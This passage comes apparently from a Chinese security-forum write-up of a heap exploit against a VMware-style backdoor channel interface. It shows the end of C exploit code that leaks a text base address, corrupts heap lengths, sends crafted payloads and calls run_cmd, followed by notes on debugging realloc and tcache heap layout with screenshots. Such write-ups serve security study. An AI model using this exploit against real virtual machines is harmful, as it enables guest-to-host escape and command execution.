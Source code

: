 ```c
    getchar();
    channel_set_len(chan[2].cookie1,chan[2].cookie2,chan[2].num,strlen(s3),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }

    printf("target address in fd\n");
    getchar();
    channel_set_len(chan[3].cookie1,chan[3].cookie2,chan[3].num,strlen(s3),&res);

    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,8,&pay2,&res);
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,8,&pay3,&res);
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,strlen(pay4)+1,pay4,&res);
    printf("success!\n");
    getchar();
    run_cmd(s4);
    if(!res){
        printf("fail to set len\n");
        return;
    }
}
void main(){
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    setvbuf(stdin,0,2,0);
    leak();
    printf("text base :%p",text);
    getchar();
    getchar();
    exploit();
}   
```

0x03 调试
=======

把断点放在realloc的位置，方便查看realloc后的堆布局。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-c15bb21f3a9a8d61cee8d1679228e3378e2a5c53.png)

在第一次free的位置看到了目标chunk，`0x7f797803a890`，这个chunk就是我们要复用的chunk。此次realloc结束，应该被挂进tcache。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-5f6609f03fbf2c05e9a32233dda512666ac8401a.png)

整个chunk的内容，可以看到大小是0x115，这里不知道为啥，连地址都没对齐。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-558cbd15fff8d78e9d81193abbc1855318dc2976.png)

单步执行之后，看到被挂进tcache的chunk。当channel 1，alloc取出这块chunk的时候，没有触发到realloc，直接走过去了。所以没断下来。因该在if的判断位置加一个断点，查看堆布局的。

不过此时可以看一下目标chunk的内容，有没有被改变。
